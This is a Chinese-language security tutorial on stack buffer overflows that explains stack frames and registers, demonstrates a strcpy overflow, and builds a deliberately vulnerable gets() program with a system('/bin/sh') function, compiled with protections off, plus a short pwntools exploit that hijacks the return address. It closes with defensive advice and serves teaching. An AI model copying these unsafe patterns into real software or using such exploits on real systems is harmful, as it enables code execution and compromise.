 #  二进制安全之栈溢出漏洞   
原创 Cyb3rES3c  Cyb3rES3c   2024-07-27 22:00  
  
**0x0****声明**  
  
    由于传播、利用此文所提供的信息而造成的任何直接或间接的后果和损失，均由使用者本人承担，Cyb3rES3c及文章作者不承担任何责任。如有侵权烦请告知，我们将立即删除相关内容并致歉。请遵守《中华人民共和国个人信息保护法》、《中华人民共和国网络安全法》等相关法律法规。  
  
**0x1 漏洞原理**  
  
  
    栈是一种后进先出（LIFO，Last In First Out）的数据结构，从高地址向低地址增长的内存结构。新添加的或待删除的元素都保存在栈的同一端，称为栈顶，另一端称为栈底。在栈中，新元素都靠近栈顶，旧元素都靠近栈底。在计算机中，栈被用来存储函数的局部变量、函数的参数以及函数调用的返回地址等信息。  
  
    栈溢出漏洞（Stack Overflow Vulnerability）指的是攻击者通过向栈中写入过多的数据，超过了这个变量本身所申请的字节数，从而覆盖了栈中其他的数据甚至覆盖了函数返回地址，进而实现任意代码执行的攻击。  
  
    与栈溢出漏洞相关的函数主要有：gets()、scanf()、strcpy()、read()等。  
  
    栈溢出漏洞的危害非常大，攻击者可以利用它执行任意代码，包括删除、修改、读取敏感数据，甚至控制整个系统。这种漏洞常被用于制造病毒、蠕虫等恶意软件，对网络安全构成严重威胁。  
  
**0x2****相关知识**  
  
    学习栈溢出漏洞必须要知道的两个寄存器：esp寄存器和ebp寄存器。esp寄存器是栈顶指针寄存器，其内存放着一个指针，该指针永远指向栈最上面一个栈帧的栈顶。在函数调用过程中，esp用于指向栈的栈顶。ebp寄存器是栈底指针寄存器（又称基址指针寄存器），其内存也放着一个指针，该指针永远指向栈最上面一个栈帧的底部。在函数调用过程中，ebp用于指向当前活动记录的顶部（即当前函数栈帧底部）。  
  
函数调用栈  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1BGf1AB5UTnXAWsYF9QVEyyYibB5NQHhnlmIpX379Lib5xrayDBTCDAkA/640?wx_fmt=png&from=appmsg "")  
  
**0x3****vulCodeDemo01**  
  
    这里有一段代码，主要功能是给变量output赋值，这段程序在第6行strcpy()函数处存在栈溢出漏洞  
```
#include <stdio.h>
#include <string.h>

int main() {
  char output[6];
  strcpy(output, "123");
  printf("%s\n", output);
  return 0;
}
```  
  
下面是正常的程序编译运行的过程  
```
gcc -g -m32 -fno-stack-protector -no-pie -o vulDemo01 vulCodeDemo01.c
```  
  
参数解释如下  
```
-g: 保留调试信息，方便后面进行代码调试，默认是不带调试信息的
-m32: 编译为32位ELF文件，默认编译为64位的ELF文件
-fno-stack-protector: 关闭栈保护，默认是开启的
-no-pie: 关闭地址随机化，方便多次调试，默认是开启的

这里没有使用的参数
-z execstack
-z noexecstack
这两个是用来开启和关闭栈执行保护的，默认是开启栈执行保护的
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1AmHs2ibkqtr3vicYdjBOllf2PBHGNGfEcjJHqbeA0dWTL00WWXricpu6w/640?wx_fmt=png&from=appmsg "")  
  
使用pwndbg调试，在第7行设置断点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1VwGuFUtTkHiaVcyGZnjvATRrmpibW81oVPaYAIlLNnbdmuU3zvBEDREQ/640?wx_fmt=png&from=appmsg "")  
  
运行程序，字符串"123"被存储在0xffffd0fa地址处  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX16lWMpQuwQ2zprogp8ibiacsfgTNOwNAiaERt5S90xSjLnTL2x4jyMoQkg/640?wx_fmt=png&from=appmsg "")  
  
查看栈空间  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX15W8zBAL96oSm6QSJwb7Gz6GKicwJNTH6ianw7KTBYuibGkia9ORRhvrJSg/640?wx_fmt=png&from=appmsg "")  
  
程序栈没有什么异常  
  
继续运行程序，直到程序结束都没有异常情况  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX181Sia5I24YNJr2xn4EasIR5u6sOMjWr3U9hf7WZj3ySH0Rcpb8icMpQA/640?wx_fmt=png&from=appmsg "")  
  
输入指定范围的字节数是没有问题的，但是  
总有一些hacker不按照的设定的去做。如果是一段超过指定范围的字节数程序会不会正常执行呢？  
  
修改代码，传入一段超长的字符串  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1PnpMskMcgenJ3uE9jibxVfbDKy42ickOxkVtTuIFcPC0AicHywY2oYzJA/640?wx_fmt=png&from=appmsg "")  
  
不用管编译过程出现的问题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1Q3KFtafNQTK9LKibFtykdvAxjJDI3rc5ly6vKw4dpicXH2PGicG4dYVFQ/640?wx_fmt=png&from=appmsg "")  
  
在第7行设置断点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1da74WtKDiafPjKYSTCHKGBcKmccKrDqLQ0mSo2EvnQOiajPzoHIXq8vw/640?wx_fmt=png&from=appmsg "")  
  
运行之后发现程序出现了异常  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1F47anUOHI2HbiaOwIH20IWyuI29do5rC4xrZPXibKBto49KJJjED6cSg/640?wx_fmt=png&from=appmsg "")  
  
栈空间被破坏了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1sn4ZVAliaoIP4VpClPTKdRfVeW3d0JcGx7qqsXtBFlzryAWicnpurNZQ/640?wx_fmt=png&from=appmsg "")  
  
发生了栈溢出  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1cOkSN8s5AtnVJPLVQa0icmy6tkFWRnh4cE2Zbhe09NSqdQgDGIM2PWA/640?wx_fmt=png&from=appmsg "")  
  
**0x4****vulCodeDemo02**  
  
这里有一段可利用的栈溢出漏洞程序  
```
#include <stdio.h>
#include <string.h>

void flag() {
  puts("flag{y0u_are_s0_c1ever!}");
    system("/bin/sh");
}

void vul() {
  char s[12];
  printf("input password\n");
  gets(s);
  puts(s);
  return ;
}

int main() {
  vul();
  
  return 0;
}
```  
  
    在vul()函数中存在一个gets()函数，对输入也没有任何的过滤，存在栈溢出漏洞。在flag()函数中存在system("/bin/sh");这样一行代码，学pwn的都知道这行代码是很危险的，攻击者可以利用溢出漏洞执行这行代码，下面是调试和利用过程  
  
和上面一样的操作，关闭相关的保护机制，编译报错不用管  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1Xp8g1LrbmDvB1D3463otE7yvAUZgBNQF4etHN0icagdsl6aDw5WiaMmQ/640?wx_fmt=png&from=appmsg "")  
  
使用pwndbg调试，在第13行puts()函数处设置断点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1pI9XJ7Ktvp6d56krtEwJ7GY3aibWpJHUF5g3LfIsNJTC0LfjibM0HlgQ/640?wx_fmt=png&from=appmsg "")  
  
运行程序，输入字符串"aaaaaa"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1XjSBlmHiccKUCUQ49z36hteLWFr1GjuQ1yo0ChHmElRbP2DUzdXmRibg/640?wx_fmt=png&from=appmsg "")  
  
字符串被存储在0xffffd0f4处  
  
查看栈空间  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1t3KKowMDd7axa4Y01mgujHDaHxib1dfAtY3Our6yTT98BSzZXkHaia3Q/640?wx_fmt=png&from=appmsg "")  
  
寄存器ebp下面的地址（0xffffd10c）存储的是函数返回地址，这里是返回main()函数，如果想要执行命令就要利用溢出漏洞将这段地址存储的返回地址覆盖为flag()可利用函数的地址  
  
计算字符串"aaaaaa"到ebp寄存器下面的地址的偏移量  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1CaMM2UDhoJMp410NggdGr4ziaRcCFpBYrJptmRBoT5MrsFfVE7YnqbQ/640?wx_fmt=png&from=appmsg "")  
  
偏移量为0x18  
  
将ELF文件放入IDA中，寻找flag()函数的入口地址  
  
flag函数入口地址为0x08049196  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1TRovfHpsWmU2nbaMCJSnKAMiaC9ODleTP7FvWsKT8L68lnfQUo9efcQ/640?wx_fmt=png&from=appmsg "")  
  
编写exp  
```
from pwn import *

p = process('./vulDemo02')
startAddress = 0x08049196
payload = b'a' * 0x18 + p32(startAddress)
p.sendline(payload)
p.interactive()
```  
  
这段代码是向漏洞程序发送一段字符串，溢出到ebp寄存器下面的一个地址，然后将函数返回地址修改为flag()函数的入口地址，vul()函数执行之后就调用了flag()函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1XiaNjOAVMibE1vNFiaqEqLzic5Uex4scz2DKzfNewShicWm2usy8qIpqgEw/640?wx_fmt=png&from=appmsg "")  
  
保证vulDemo02程序运行之后再运行exp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX1vZR0b4tiajN15X4kn34iaLmlIW7jniaQcwI2Y0Z8Dx0wicO3FMQpDxmu6Q/640?wx_fmt=png&from=appmsg "")  
  
成功利用栈溢出漏洞调用目标函数去执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKo9aiaBic3ibMl0wNcOfdsqiaX15BNGT8ymycIr4jvN37ROJCj7n2PialA3006XHYQPuDbxST6kFic8Ly2Q/640?wx_fmt=png&from=appmsg "")  
  
**0x5****防御措施**  
  
为防止栈溢出漏洞的发生，开发人员和安全工程师可以采取以下措施：  
  
1、**输入验证**：对用户的输入进行严格的验证和过滤，确保输入数据在合理的范围内，避免超出栈内存的限制。  
  
2、  
**缓冲区溢出检测**：使用专业的工具和技术对程序进行缓冲区溢出检测，及时发现并修复潜在的漏洞。  
  
3、  
**使用栈保护机制**：现代操作系统和编译器通常提供了栈保护机制，可以在一定程度上防止栈溢出攻击。  
  
4、  
**代码审查**：对程序代码进行定期的代码审查，及时发现并纠正潜在的错误和漏洞。  
  
5、  
**使用安全的编程语言和框架**：选择使用经过安全验证的编程语言和框架，可以减少栈溢出漏洞的风险。  
  
